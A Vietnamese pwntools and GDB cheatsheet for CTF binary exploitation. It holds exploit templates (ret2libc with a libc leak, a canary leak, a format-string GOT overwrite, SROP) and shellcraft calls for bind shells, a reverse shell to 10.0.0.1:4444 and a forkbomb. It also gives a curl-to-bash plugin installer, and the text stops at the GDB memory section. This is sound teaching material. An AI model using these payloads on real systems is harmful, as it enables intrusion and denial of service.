




# Pwntools & GDB Cheatsheet

<!--more-->

## Mục lục nhanh

```
pwntools         → Tubes · Context · ELF · Pack/Unpack · Shellcraft · ROP · SROP · FmtStr · Cyclic · Utils
GDB plugins      → pwndbg · GEF · PEDA
pwn CLI          → checksec · cyclic · asm · disasm · shellcraft · template
```

---

# Phần 1 — Pwntools

## 1.1 Cài đặt & Import

```bash
pip install pwntools
```

```python
from pwn import *
```

> `from pwn import *` nạp toàn bộ namespace: `ELF`, `ROP`, `process`, `remote`, `asm`, `shellcraft`, `context`, `pack`, `p64`, `u64`, v.v.

---

## 1.2 Context — Cấu hình toàn cục

`context` là object global, nhiều hàm pwntools phụ thuộc vào nó để biết kiến trúc, endianness, bit-width.

```python
# Cách đơn giản nhất: để pwntools tự đọc từ binary
exe = ELF("./vuln")
context.binary = exe      # tự set arch, bits, endian, os

# Hoặc set thủ công
context.arch    = 'amd64'   # i386 | amd64 | arm | aarch64 | mips | mips64 | powerpc | sparc
context.bits    = 64        # 32 | 64
context.endian  = 'little'  # little | big
context.os      = 'linux'   # linux | windows | freebsd | android
context.log_level = 'debug' # debug | info | warn | error  (mặc định: info)
context.terminal  = ['tmux', 'splitw', '-h']   # terminal để spawn GDB
context.timeout   = 10      # timeout mặc định cho tube operations (giây)
```

??? note "Tại sao context quan trọng?"
    Ví dụ `p64()` vs `p32()` phụ thuộc vào `context.bits`. `shellcraft.sh()` sẽ generate shellcode đúng arch. `asm()` sẽ compile đúng ISA. Nếu bỏ qua context, payload sẽ sai kiến trúc.

---

## 1.3 Tubes — Giao tiếp với tiến trình

Tube là abstraction trung tâm của pwntools — mọi I/O đều thông qua tube object.



### Tạo tube

=== "Local process"

    ```python
    p = process("./vuln")
    
    # Với arguments và env
    p = process(["./vuln", "--arg1", "val"], env={"VAR": "value"})
    
    # Context manager (tự đóng sau khi xong)
    with process("./vuln") as p:
        p.sendline(b"hello")
    ```

=== "Remote TCP"

    ```python
    p = remote("ctf.example.com", 1337)
    
    # UDP
    p = remote("host", 1337, typ='udp')
    
    with remote("ctf.example.com", 1337) as p:
        p.interactive()
    ```

=== "SSH"

    ```python
    s = ssh(host='target.com', user='user', password='pass')
    # hoặc dùng key
    s = ssh(host='target.com', user='user', keyfile='~/.ssh/id_rsa')
    
    p = s.process('/tmp/vuln')
    p = s.system('id')
    ```

=== "GDB debug"

    ```python
    # Spawn process dưới GDB, dừng ở instruction đầu tiên
    p = gdb.debug("./vuln")
    
    # Kèm GDB script chạy ngay khi attach
    p = gdb.debug("./vuln", gdbscript="b main\nc")
    
    # Tắt ASLR
    p = gdb.debug("./vuln", aslr=False)
    
    # Attach GDB vào process đang chạy
    p = process("./vuln")
    gdb.attach(p)
    
    # Attach với GDB script + sleep để kịp nhìn
    gdb.attach(p, gdbscript="b *0x401234\nc")
    
    # Trick phổ biến: chỉ attach khi pass flag GDB
    # python3 exploit.py GDB
    if args.GDB:
        gdb.attach(p, gdbscript="b main")
        pause()   # hoặc sleep(2)
    ```

---

### Nhận dữ liệu (recv)

| Hàm | Hành vi |
|-----|---------|
| `p.recv(n=4096)` | Đọc tối đa `n` bytes, trả về ngay nếu có data |
| `p.recvn(n)` | Đọc **đúng** `n` bytes, block cho đủ |
| `p.recvline()` | Đọc đến `\n` (bao gồm `\n`) |
| `p.recvline(keepends=False)` | Đọc đến `\n`, bỏ `\n` |
| `p.recvlines(k)` | Đọc `k` dòng, trả về list |
| `p.recvuntil(b"marker")` | Đọc cho đến khi gặp `marker` (bao gồm marker) |
| `p.recvuntil(b"marker", drop=True)` | Đọc đến marker, bỏ marker khỏi kết quả |
| `p.recvall()` | Đọc đến EOF |
| `p.clean(timeout=0.3)` | Flush buffer với timeout ngắn |
| `p.stream()` | In mọi data nhận được, block đến EOF |

```python
# Ví dụ thực tế: leak địa chỉ
p.recvuntil(b"Address: ")
leak = int(p.recvline().strip(), 16)

# Đọc rồi unpack thành integer
data = p.recvn(8)
addr = u64(data)
```

### Gửi dữ liệu (send)

| Hàm | Hành vi |
|-----|---------|
| `p.send(data)` | Gửi raw bytes |
| `p.sendline(data)` | Gửi bytes + `\n` |
| `p.sendafter(delim, data)` | `recvuntil(delim)` rồi `send(data)` |
| `p.sendlineafter(delim, data)` | `recvuntil(delim)` rồi `sendline(data)` |

```python
p.sendlineafter(b"Enter choice: ", b"1")
p.sendafter(b"Name: ", b"A" * 64 + p64(win_addr))
```

### Interactive

```python
p.interactive()   # Chuyển sang chế độ manual, bạn gõ trực tiếp
```

> Dùng sau khi đã khai thác thành công để tương tác với shell.

---

## 1.4 ELF — Phân tích binary

```python
exe = ELF("./vuln")
libc = ELF("./libc.so.6")
```

### Thuộc tính cơ bản

```python
exe.path        # đường dẫn file
exe.arch        # 'amd64', 'i386', ...
exe.bits        # 32 hoặc 64
exe.endian      # 'little' hoặc 'big'
exe.address     # base address (0 nếu PIE bật hoặc chưa biết)
exe.pie         # True/False
exe.nx          # True/False (NX / DEP)
exe.canary      # True/False
exe.relro       # 'No RELRO' | 'Partial RELRO' | 'Full RELRO'
```

### Symbols, GOT, PLT

```python
exe.symbols['win']      # địa chỉ hàm/biến tên 'win'
exe.sym['win']          # alias ngắn hơn

exe.plt['puts']         # địa chỉ PLT stub của puts
exe.plt.puts            # cú pháp attribute (tương đương)

exe.got['puts']         # địa chỉ entry GOT của puts (trỏ đến địa chỉ thực của puts)
exe.got.puts            # tương đương
```

??? info "PLT vs GOT — tóm tắt nhanh"
    - **GOT** (Global Offset Table): bảng chứa địa chỉ thực của hàm libc sau khi resolve lần đầu.
    - **PLT** (Procedure Linkage Table): stub nhỏ, lần đầu gọi → trigger dynamic linker, lần sau → jump thẳng qua GOT.
    - Khi leak: đọc `exe.got['puts']` để lấy địa chỉ runtime của `puts` trong libc.
    - Khi overwrite: ghi đè `exe.got['puts']` để redirect call.

### Tìm kiếm trong binary

```python
list(exe.search(b"/bin/sh"))       # tìm string trong binary
list(exe.search(b"/bin/sh\0"))     # tìm với null terminator
next(libc.search(b"/bin/sh\0"))    # lấy địa chỉ đầu tiên

exe.read(exe.address, 4)           # đọc 4 bytes tại địa chỉ
exe.write(addr, b"\x90\x90")       # patch binary trong memory
```

### PIE & ASLR — Set base address

```python
# Nếu PIE bật, exe.address = 0 ban đầu
# Sau khi leak được địa chỉ runtime:
leaked_main = 0x55fXXXXXXXX
exe.address = leaked_main - exe.sym['main']
# Bây giờ tất cả exe.sym[], exe.got[], exe.plt[] đều offset đúng

# Tương tự với libc
libc.address = leaked_puts - libc.sym['puts']
```

### Tạo ELF từ assembly (debug nhanh)

```python
shellcode = '''
    mov rax, 59
    lea rdi, [rip+bin_sh]
    xor rsi, rsi
    xor rdx, rdx
    syscall
bin_sh: .string "/bin/sh"
'''
elf = ELF.from_assembly(shellcode, arch='amd64')
p = process(elf.path)
```

---

## 1.5 Packing & Unpacking

Chuyển đổi integer ↔ bytes theo endianness.

=== "Shorthand (p32/p64)"

    ```python
    # Pack: int → bytes
    p8(0x41)                    # b'A'
    p16(0x4142)                 # b'BA' (little-endian)
    p32(0xdeadbeef)             # b'\xef\xbe\xad\xde'
    p64(0xdeadbeefcafebabe)     # 8 bytes little-endian

    # Unpack: bytes → int
    u8(b'\x41')
    u16(b'\x42\x41')
    u32(b'\xef\xbe\xad\xde')    # 0xdeadbeef
    u64(b'\xbe\xba\xfe\xca\xef\xbe\xad\xde')

    # Unpack có sign
    u32(b'\xff\xff\xff\xff', signed=True)   # -1
    ```

=== "Generic pack/unpack"

    ```python
    # pack() / unpack() dùng context.bits và context.endian
    context.arch = 'amd64'
    pack(0xff1122)      # → b'\x22\x11\xff\x00\x00\x00\x00\x00' (8 bytes)
    unpack(b'\x22\x11\xff\x00\x00\x00\x00\x00')  # → 0xff1122

    # Chỉ định explicit
    pack(0xdeadbeef, 32, endian='big')   # b'\xde\xad\xbe\xef'
    ```

=== "flat() — dựng payload"

    ```python
    # flat() ghép nhiều thứ thành bytes
    payload = flat(
        b"A" * 40,          # padding
        p64(ret_gadget),    # return gadget
        p64(pop_rdi),
        p64(bin_sh_addr),
        p64(system_addr),
    )
    # Tương đương nhưng gọn hơn concatenation thủ công
    ```

---

## 1.6 Assembly & Shellcraft

### asm() / disasm()

```python
# Compile assembly → bytes
asm("nop")                              # b'\x90'
asm("mov rax, 0x3b; syscall")          # theo context.arch
asm("push 0x41; pop eax", arch='i386') # override arch

# Decompile bytes → assembly string
disasm(b'\x90')                         # '   0:   90   nop'
disasm(b'\x48\x31\xc0', arch='amd64')
```

### shellcraft — Thư viện shellcode template

```python
# shellcraft tự động chọn arch từ context
# Luôn cần wrap bằng asm() để convert thành bytes

# === Linux shells ===
shellcraft.sh()                          # execve /bin/sh
shellcraft.execve('/bin/sh', 0, 0)       # execve raw
shellcraft.cat('/flag.txt')              # đọc file
shellcraft.echo("hello")                 # in string

# === Networking ===
shellcraft.bindsh(4444, 'ipv4')          # bind shell port 4444
shellcraft.connect("10.0.0.1", 4444)    # connect ngược
shellcraft.connect("10.0.0.1", 4444) + shellcraft.dupsh()  # reverse shell

# === Syscalls ===
shellcraft.syscall('SYS_execve', 1, 'rsp', 2, 0)  # raw syscall
shellcraft.read(0, 'rsp', 100)           # read(stdin, rsp, 100)
shellcraft.write(1, 'rsp', 100)          # write(stdout, rsp, 100)

# === Misc ===
shellcraft.egghunter("EGGG")             # egghunter cho egg "EGGG"
shellcraft.forkbomb()                    # fork bomb
shellcraft.exit(0)

# === Windows ===
shellcraft.cmd()                         # spawn cmd.exe
shellcraft.winexec("calc.exe")

# === Chỉ định arch cụ thể (không cần set context) ===
shellcraft.amd64.linux.sh()
shellcraft.i386.linux.sh()
shellcraft.aarch64.linux.sh()
shellcraft.arm.linux.sh()

# === Sử dụng ===
payload = asm(shellcraft.sh())
payload = bytes(asm(shellcraft.sh()))    # cast về bytes nếu cần
```

??? warning "Lưu ý NOP sled"
    Khi bruteforce ASLR với shellcode, thêm NOP sled trước shellcode để tăng xác suất hit:
    ```python
    payload = asm("nop") * 1000 + asm(shellcraft.sh())
    ```

### Shellcode Encoding — tránh bad bytes

```python
from pwnlib.encoders.encoder import encode

shellcode = asm(shellcraft.sh())
bad_chars = b'\x00\x0a\x0d'

# Pwntools thử tự encode shellcode tránh bad bytes
encoded = encode(shellcode, bad_chars)
```

---

## 1.7 ROP — Return Oriented Programming



### Khởi tạo ROP object

```python
exe  = ELF("./vuln")
libc = ELF("./libc.so.6")

rop = ROP(exe)              # chỉ tìm gadget trong exe
rop = ROP([exe, libc])      # tìm gadget trong cả hai

# Tránh bad characters trong địa chỉ gadget
rop = ROP([exe, libc], badchars=b'\x00\x0a')
```

### Tìm gadget

```python
# Tìm gadget cụ thể
rop.find_gadget(['pop rdi', 'ret'])      # Gadget object hoặc None
rop.find_gadget(['pop rdi', 'ret'])[0]   # lấy địa chỉ

# Magic property: tự tìm gadget pop <reg>; ret
rop.rdi     # Gadget(addr, ['pop rdi', 'ret'], ...)
rop.rsi     # Gadget cho rsi
rop.rax
hex(rop.rdi.address)   # địa chỉ hex

# Liệt kê tất cả gadget
for addr, gadget in rop.gadgets.items():
    print(gadget)
```

### Build ROP chain

=== "Manual"

    ```python
    rop = ROP(exe)

    # Thêm gadget raw
    ret = rop.find_gadget(['ret'])[0]
    rop.raw(ret)                   # thêm 1 gadget

    # Set register qua gadget
    rop.rdi = bin_sh_addr          # pwntools tự tìm pop rdi; ret
    rop.rsi = 0
    rop.rdx = 0

    # Thêm raw bytes (padding, etc.)
    rop.raw(b"A" * 8)

    # Jump đến địa chỉ
    rop.raw(system_addr)
    ```

=== "High-level call()"

    ```python
    # Pwntools tự build gadget chain để call hàm với args
    rop.call(exe.sym['win'], [arg1, arg2])
    rop.call(libc.sym['system'], [bin_sh])

    # Hoặc dùng magic call syntax
    bin_sh = next(libc.search(b'/bin/sh\0'))
    rop.system(bin_sh)          # = rop.call(libc.sym['system'], [bin_sh])
    rop.execve(bin_sh, 0, 0)
    rop.setreuid(0, 0)
    ```

=== "Xuất chain"

    ```python
    print(rop.dump())   # in đẹp để debug
    """
    0x0000: 0x401234 pop rdi; ret
    0x0008: 0x403abc [arg0] rdi = /bin/sh address
    0x0010: 0x401100 system
    """

    payload = rop.chain()       # raw bytes để gửi
    # hoặc
    payload = bytes(rop)
    ```

### Full ROP exploit pattern

```python
from pwn import *

exe  = ELF("./vuln")
libc = ELF("./libc.so.6")
context.binary = exe

p = process(exe.path)

# ── Bước 1: Leak địa chỉ libc ──────────────────────────────
rop1 = ROP(exe)
rop1.puts(exe.got['puts'])   # puts(got['puts']) → leak địa chỉ puts trong libc
rop1.raw(exe.sym['main'])    # quay về main để exploit lần 2

padding = b"A" * 40 + b"B" * 8  # overflow đến saved RIP
p.sendlineafter(b"> ", padding + rop1.chain())

p.recvline()
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leak - libc.sym['puts']
log.success(f"libc @ {hex(libc.address)}")

# ── Bước 2: ret2libc ───────────────────────────────────────
bin_sh = next(libc.search(b'/bin/sh\0'))
rop2 = ROP(libc)
rop2.raw(rop2.find_gadget(['ret'])[0])  # stack alignment (x86_64)
rop2.system(bin_sh)

p.sendlineafter(b"> ", padding + rop2.chain())
p.interactive()
```

---

## 1.8 SROP — Sigreturn Oriented Programming

Dùng khi không có đủ gadget nhưng có thể trigger `sigreturn` syscall để set toàn bộ register.

```python
# Yêu cầu: kiểm soát được stack + gadget: syscall; ret + pop rax; ret (hoặc mov rax, 15)

frame = SigreturnFrame()
frame.rax = constants.SYS_execve   # 59
frame.rdi = bin_sh_addr            # pointer tới "/bin/sh"
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0xdeadbeef             # stack pointer sau sigreturn
frame.rip = syscall_addr           # địa chỉ instruction syscall

payload = padding + p64(pop_rax) + p64(15)  # SYS_rt_sigreturn = 15
payload += p64(syscall_addr) + bytes(frame)
```

---

## 1.9 Format String Exploitation

### FmtStr helper

```python
# Pwntools tự tìm offset của format string trên stack
def send_payload(payload):
    with process("./vuln") as p:
        p.sendline(payload)
        return p.recvall()

fmt = FmtStr(send_payload)
print(fmt.offset)   # offset index trên stack

# Tạo payload ghi đè địa chỉ
# Ghi đè got['printf'] bằng system_addr
fmt.write(exe.got['printf'], system_addr)
payload = fmt.payload
p.sendline(payload)
```

### fmtstr_payload() — tự động

```python
# writes: dict {địa_chỉ: giá_trị}
payload = fmtstr_payload(
    offset=6,                           # offset của input trên stack
    writes={exe.got['printf']: system_addr},
    numbwritten=0,                      # bytes đã in trước đó
    write_size='byte'                   # 'byte' | 'short' | 'int'
)
p.sendline(payload)
```

### fmtstr_split() — tách format + địa chỉ

```python
# Hữu ích khi format string buffer bị giới hạn kích thước
fmt_str, locations = fmtstr_split(
    offset=8,
    writes={target_addr: value},
)
payload = fmt_str + b"A" * padding + locations
```

---

## 1.10 Cyclic Pattern — Tìm offset

Dùng De Bruijn sequence để tìm offset chính xác mà không cần đếm tay.

```python
# Tạo pattern
pattern = cyclic(200)       # 200 bytes
cyclic(200, n=8)            # n=8 cho 64-bit (dùng 8-byte chunks thay vì 4)

# Tìm offset từ giá trị bị overwrite (lấy từ crash)
cyclic_find(0x61616164)              # → 12  (32-bit, little-endian)
cyclic_find(b'aaad')                 # → 12  (cùng kết quả)
cyclic_find(0x6161616161616162, n=8) # → 8   (64-bit)

# Ví dụ workflow:
# 1. Gửi cyclic(200) vào chương trình
# 2. Chương trình crash, GDB cho thấy RIP = 0x6161616f
# 3. offset = cyclic_find(0x6161616f) → padding size
```

---

## 1.11 DynELF — Leak libc không có file

Khi không có libc.so.6 nhưng có thể leak bộ nhớ tùy ý.

```python
def leak(addr):
    p.sendline(build_leak_payload(addr))
    data = p.recvn(8)
    return data

d = DynELF(leak, exe)
system_addr = d.lookup('system', 'libc')
```

---

## 1.12 LibcDB — Tìm libc từ leak

```python
# Tìm libc version từ địa chỉ leak
from pwnlib.libcdb import search_by_symbol_offsets

candidates = search_by_symbol_offsets(
    {'puts': leaked_puts, 'printf': leaked_printf},
    base_addr=0
)
```

> Ngoài ra dùng website: **libc.rip** hoặc **libc.blukat.me** — paste địa chỉ leak, tìm offset.

---

## 1.13 Utility Functions

```python
# ── Encoding ───────────────────────────────────────────────
enhex(b'\xde\xad')       # → 'dead'  (bytes → hex string)
unhex('dead')            # → b'\xde\xad'
b64e(b'hello')           # base64 encode
b64d('aGVsbG8=')         # base64 decode
xor(b'AAAA', b'\x01')    # XOR bytes
xor(b'data', 0x41)       # XOR với 1 byte key

# ── Hexdump ────────────────────────────────────────────────
print(hexdump(b'\xde\xad\xbe\xef' * 4))
# 00000000  de ad be ef  de ad be ef  de ad be ef  de ad be ef  │....│....│....│....│

# ── Số học ─────────────────────────────────────────────────
log.info(hex(0xdeadbeef))   # pwntools logging
log.success("Got shell!")
log.warning("ASLR enabled")
log.debug(f"leak = {hex(leak)}")

# ── Misc ────────────────────────────────────────────────────
pause()             # dừng script cho đến khi nhấn Enter (debug)
sleep(1)            # đã được pwntools import sẵn

# ── args ────────────────────────────────────────────────────
# python3 exploit.py GDB REMOTE
args.GDB            # True nếu 'GDB' trong argv
args.REMOTE         # True nếu 'REMOTE' trong argv
args.get('HOST', 'localhost')
```

---

## 1.14 pwn CLI — Command Line Tools

```bash
pwn -h
# Subcommands: asm checksec constgrep cyclic debug disasm disablenx
#              elfdiff elfpatch errno hex phd pwnstrip scramble
#              shellcraft template unhex update version
```

=== "checksec"

    ```bash
    pwn checksec ./binary
    # [*] './binary'
    #     Arch:     amd64-64-little
    #     RELRO:    Full RELRO
    #     Stack:    Canary found
    #     NX:       NX enabled
    #     PIE:      PIE enabled
    ```

=== "cyclic"

    ```bash
    pwn cyclic 50                   # tạo pattern 50 bytes
    pwn cyclic -l 0x61616164        # tìm offset từ giá trị crash
    pwn cyclic -l "caaa"            # tương đương
    pwn cyclic -n 8 100             # pattern với chunk size 8 (64-bit)
    ```

=== "asm / disasm"

    ```bash
    pwn asm "nop; nop"              # → 9090
    pwn asm -c amd64 "pop rdi; ret" # chỉ định arch
    echo "pop rdi; ret" | pwn asm -c amd64

    pwn disasm -c amd64 "5fc3"      # → pop rdi; ret
    cat shellcode.bin | pwn disasm -c amd64
    ```

=== "shellcraft"

    ```bash
    pwn shellcraft -f hex amd64.linux.sh    # hex
    pwn shellcraft -f asm amd64.linux.sh    # assembly
    pwn shellcraft -f raw amd64.linux.sh    # raw bytes
    pwn shellcraft -l amd64.linux           # liệt kê templates
    ```

=== "template"

    ```bash
    # Sinh boilerplate exploit script
    pwn template ./vuln
    pwn template --host ctf.example.com --port 1337 ./vuln
    # → tạo file exploit.py với skeleton đầy đủ
    ```

=== "hex / unhex"

    ```bash
    pwn hex "AAAA"          # → 41414141
    echo "41414141" | pwn unhex  # → AAAA
    ```

=== "errno"

    ```bash
    pwn errno ENOENT        # → 2: No such file or directory
    pwn errno 11            # → EAGAIN: Resource temporarily unavailable
    ```

=== "phd (hexdump)"

    ```bash
    cat binary | pwn phd            # hexdump của stdin
    pwn phd -n 64 binary            # chỉ 64 bytes đầu
    ```

=== "elfdiff / elfpatch"

    ```bash
    pwn elfdiff binary1 binary2     # so sánh 2 ELF
    pwn elfpatch binary 0x401000 "90 90 90"  # patch bytes
    ```

---

## 1.15 Exploit Templates phổ biến

=== "Stack BOF + ret2win"

    ```python
    from pwn import *

    exe = ELF("./vuln")
    context.binary = exe

    p = process(exe.path)
    # Tìm offset bằng cyclic trước
    offset = 40

    payload = b"A" * offset
    payload += p64(exe.sym['win'])

    p.sendlineafter(b"> ", payload)
    p.interactive()
    ```

=== "ret2libc (ASLR + PIE)"

    ```python
    from pwn import *

    exe  = ELF("./vuln")
    libc = ELF("./libc.so.6")
    context.binary = exe

    p = process(exe.path)
    offset = 40

    # Stage 1: Leak
    rop = ROP(exe)
    rop.puts(exe.got['puts'])
    rop.raw(exe.sym['main'])

    p.sendlineafter(b"> ", b"A" * offset + b"B" * 8 + rop.chain())
    p.recvline()
    leak = u64(p.recvline().strip().ljust(8, b'\x00'))
    libc.address = leak - libc.sym['puts']
    log.success(f"libc base: {hex(libc.address)}")

    # Stage 2: shell
    bin_sh = next(libc.search(b'/bin/sh\0'))
    rop2 = ROP(libc)
    rop2.raw(rop2.find_gadget(['ret'])[0])   # alignment
    rop2.system(bin_sh)

    p.sendlineafter(b"> ", b"A" * offset + b"B" * 8 + rop2.chain())
    p.interactive()
    ```

=== "Stack Canary leak"

    ```python
    from pwn import *

    exe = ELF("./vuln")
    context.binary = exe

    p = process(exe.path)
    # Overflow đến 1 byte trước canary, canary bắt đầu bằng \x00
    p.sendline(b"A" * (canary_offset))   # điền đến vị trí canary

    p.recvuntil(b"A" * canary_offset)
    # Read 7 bytes (canary trừ null byte đầu)
    canary = b"\x00" + p.recv(7)
    canary_val = u64(canary)
    log.success(f"Canary: {hex(canary_val)}")

    # Build payload với canary đúng
    payload = b"A" * canary_offset
    payload += p64(canary_val)         # canary
    payload += b"B" * 8                # saved rbp
    payload += p64(win_addr)           # return addr

    p.sendline(payload)
    p.interactive()
    ```

=== "Format String → GOT overwrite"

    ```python
    from pwn import *

    exe = ELF("./vuln")
    context.binary = exe
    p = process(exe.path)

    # Tìm offset
    def send_fmt(payload):
        with process(exe.path) as tmp:
            tmp.sendline(payload)
            return tmp.recvall()

    fmt = FmtStr(send_fmt)
    offset = fmt.offset

    # Ghi đè got['printf'] thành system_addr
    system_addr = exe.sym['system']   # hoặc libc leak
    writes = {exe.got['printf']: system_addr}

    payload = fmtstr_payload(offset, writes)
    p.sendline(payload)
    # Lần sau khi binary gọi printf("%s", user_input) với input="/bin/sh"
    # → thực ra gọi system("/bin/sh")
    p.sendline(b"/bin/sh")
    p.interactive()
    ```

---

# Phần 2 — GDB & Plugins

## 2.1 Plugin Overview



| | pwndbg | GEF | PEDA |
|---|---|---|---|
| CTF phổ biến | ⭐⭐⭐ | ⭐⭐ | ⭐ |
| Multi-arch (ARM/MIPS) | Tốt | Rất tốt | Yếu |
| UI context | Đẹp | Đẹp | Đơn giản |
| Heap analysis | Rất tốt | Tốt | Cơ bản |
| Maintained | Đang active | Đang active | Ít update |

### Cài đặt

=== "pwndbg"

    ```bash
    git clone https://github.com/pwndbg/pwndbg
    cd pwndbg && ./setup.sh
    # ~/.gdbinit được tự cập nhật
    ```

=== "GEF"

    ```bash
    bash -c "$(curl -fsSL https://gef.blah.cat/sh)"
    # hoặc
    wget -O ~/.gdbinit-gef.py https://gef.blah.cat/py
    echo "source ~/.gdbinit-gef.py" >> ~/.gdbinit
    ```

=== "PEDA"

    ```bash
    git clone https://github.com/longld/peda.git ~/peda
    echo "source ~/peda/peda.py" >> ~/.gdbinit
    ```

=== "Cả 3 cùng lúc (switch)"

    ```bash
    # Dùng script apogiatzis/gdb-peda-pwndbg-gef
    git clone https://github.com/apogiatzis/gdb-peda-pwndbg-gef
    cd gdb-peda-pwndbg-gef && ./install.sh

    # Sau đó switch bằng lệnh:
    gdb-peda    binary
    gdb-pwndbg  binary
    gdb-gef     binary
    ```

---

## 2.2 GDB — Lệnh cơ bản

### Chạy và điều hướng

```bash
gdb ./binary                    # mở binary
gdb -ex "run" ./binary          # mở và chạy luôn
gdb --pid 1234                  # attach vào process đang chạy
gdb -ex "set follow-fork-mode child" ./binary

(gdb) run                       # chạy chương trình
(gdb) run arg1 arg2             # chạy với arguments
(gdb) run < input.txt           # redirect stdin
(gdb) starti                    # chạy, dừng ở instruction đầu tiên (pwndbg)
(gdb) start                     # chạy, dừng ở main()
(gdb) continue  # c             # tiếp tục chạy
(gdb) quit      # q
```

### Breakpoints

```bash
(gdb) break main                # breakpoint tại hàm main
(gdb) break *0x401234           # breakpoint tại địa chỉ cụ thể
(gdb) break *main+84            # offset trong hàm
(gdb) break vuln.c:42           # dòng file source

(gdb) info breakpoints          # liệt kê breakpoints
(gdb) delete 1                  # xóa breakpoint #1
(gdb) delete                    # xóa tất cả
(gdb) disable 2                 # tắt breakpoint #2
(gdb) enable 2                  # bật lại

# Watchpoint (dừng khi biến thay đổi)
(gdb) watch *0x403010           # dừng khi giá trị tại 0x403010 thay đổi
(gdb) rwatch *0x403010          # dừng khi đọc
(gdb) awatch *0x403010          # dừng khi đọc hoặc ghi
```

### Step execution

```bash
(gdb) next        # n     — chạy 1 dòng C, không đi vào function
(gdb) step        # s     — chạy 1 dòng C, đi vào function
(gdb) nexti       # ni    — chạy 1 instruction assembly, không đi vào call
(gdb) stepi       # si    — chạy 1 instruction assembly, đi vào call
(gdb) finish              — chạy đến hết function hiện tại
(gdb) until 0x401234      — chạy đến địa chỉ cụ thể
(gdb) jump *0x401234      — nhảy đến địa chỉ (không call, chỉ set RIP)
```

### Inspect memory & registers

```bash
